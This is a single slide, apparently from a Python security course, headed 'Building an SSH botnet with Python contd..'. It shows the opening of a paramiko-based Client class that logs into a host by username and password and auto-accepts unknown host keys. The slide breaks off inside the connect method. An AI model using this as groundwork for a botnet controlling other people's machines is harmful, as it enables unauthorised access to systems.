

# BUILDING AN SSH BOTNET WITH PYTHON CONTD..

import paramiko
class Client:
    def __init__(self, host, user, password):
        self.host = host
        self.user = user
        self.password = password
        self.session = self.connect()
def connect(self):
        try:
                ssh_client = paramiko.SSHClient()
                ssh_client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
                ssh_client.connect(hostname=self.host, username=self.user, password=self.password)
                return ssh_client